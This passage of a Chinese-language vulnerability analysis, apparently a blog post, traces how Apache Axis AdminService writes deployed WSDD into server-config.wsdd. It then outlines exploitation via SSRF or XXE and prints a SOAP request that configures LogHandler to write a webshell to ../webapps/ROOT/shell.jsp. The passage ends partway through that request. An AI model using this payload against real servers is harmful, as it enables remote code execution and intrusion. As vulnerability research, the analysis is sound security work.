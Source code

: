 调用`this.process`方法，跟进
![](https://img-blog.csdnimg.cn/13b8a194e8c845b7bb877329f4ab6a09.png)

调用 verifyHostAllowed 方法对 ip 进行检验，需要满足 enableRemoteAdmin 为true，如果不满足那么需要 remoteIP 为`127.0.0.1`或者`0:0:0:0:0:0:0:1`，如果都不是则直接 throw 抛出异常
```java
if (rootNS != null && rootNS.equals("http://xml.apache.org/axis/wsdd/")) {
            return processWSDD(msgContext, engine, root);
        }
```
接下来进入到 processWSDD 方法
![](https://img-blog.csdnimg.cn/f019f9e95b0a48a9aaf92a457d42a481.png)

`org.apache.axis.AxisEngine#saveConfiguration`，写入配置文件
![](https://img-blog.csdnimg.cn/b75f1ac8e6784339a66dc324eed59677.png)

`org.apache.axis.configuration.FileProvider#writeEngineConfig`
![](https://img-blog.csdnimg.cn/abc395381bfd41e281bce1658e89aca0.png)

即会将xml数据写入到`server-config.wsdd`配置文件里面，造成漏洞



## 漏洞利用
利用方式有以下两种：
- 暴露在外部的web service能直接调用造成危害，web service通常会存在较多的漏洞问题，很多时候没鉴权或者鉴权不够
- 利用AdminService部署恶意类service或者handler，但是AdminService只能local访问，需要配合一个SSRF

实际上大多数情况都是第二种，需要利用XXE、SSRF或者中间人攻击，通过get请求来部署恶意服务

而类作为service也是需要条件的：
- 需要有一个 public 的无参构造函数
- 只有public的方法会作为service方法，并且不包含父类的方法


官网配置文档：[https://axis.apache.org/axis/java/reference.html](https://axis.apache.org/axis/java/reference.html)
![](https://img-blog.csdnimg.cn/cad982c0152e496bb2f007d1dab8f4a5.png)

allowedMethods字段指定调用的方法、className字段指定实现的类名

### org.apache.axis.handlers.LogHandler
LogHandler：它将每次的请求和响应记录到文件中
我们可以更改默认配置文件名`LogHandler.fileName`，然后通过日志文件写入webshell
![](https://img-blog.csdnimg.cn/9a668be9a2234f559ceb997571257380.png)

POST请求：
```xml
POST /axis/services/AdminService HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 785

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" >
  <soap:Body>
    <deployment
      xmlns="http://xml.apache.org/axis/wsdd/"
      xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
        <service name="randomAAA" provider="java:RPC">
        <requestFlow>
            <handler type="java:org.apache.axis.handlers.LogHandler" >
                <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />
                <parameter name="LogHandler.writeToConsole" value="false" />
            </handler>
```